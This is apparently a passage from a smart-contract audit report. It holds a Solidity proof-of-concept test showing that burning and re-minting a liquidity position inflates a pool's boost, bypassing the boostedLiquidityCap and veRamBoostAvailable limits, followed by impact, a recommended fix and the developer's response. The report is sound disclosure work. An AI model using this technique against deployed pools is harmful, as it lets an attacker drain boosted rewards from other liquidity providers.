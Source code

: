 ```solidity
            uint8 feeProtocol,
            bool unlocked
        ) = _pool.slot0();
        int24 tickLower = tick - 132;
        int24 tickUpper = tick + 68;
        _pool.mint(address(this), 0,  tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1, "");
        (uint128 boostAmountPreBurn,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        _pool.burn(0, tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1);
        _pool.mint(address(this), 0,  tickLower, tickUpper, tickSpacingToMaxLiquidityPerTick(200), 1, "");
        (uint128 boostAmountPostBurn,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        assertGt(uint(boostAmountPostBurn), uint(boostAmountPreBurn));
    }
}
```

Note that the pool in the POC has been initialized similarly to the deployed DEUS/USDC pool which can be found [here](https://arbiscan.io/address/0xb4ace7b779b2c47f591c9e180c51a24123ef98bf). Also, note that the `MockVotingEscrow` contract has been hard coded to return the same `balanceOfNFT()` (the balance taken from the [deployed veRAM contract](https://arbiscan.io/address/0xaaa343032aa79ee9a6897dab03bef967c3289a06) for `tokenId` 1 at the time of the test) and `isApproverOrOwner()` for ease of testing.

```solidity
    function isApprovedOrOwner(address, uint256) external override view returns (bool) {
        return true;
    }

    function balanceOfNFT(uint256) external override view returns (uint256) {
        return 21487469130353205716474214;
    }
```

#### Impact

Medium. An attacker can bypass the `boostedLiquidityCap` and `veRamBoostAvailable` limits.

#### Recommendation

Maintain separate token balance state variables that should be used by the boosted calculations by subtracting the tokens owed to position burners whenever a position is burned. You could also send the tokens to the burner at the time they are burned, rather than maintaining the balance in the pool.

#### Developer Response

Acknowledged, we plan on making a `poke()` function so users can punish bad actors if they game the system this way.

`poke()` will use current balances in the pool so if the attacker withdrew their tokens then it'll lower their boost. If the attacker leaves the withdrawable tokens in the pool then everyone else will be getting enlarged boost, negating the enlarged boost the attacker has.
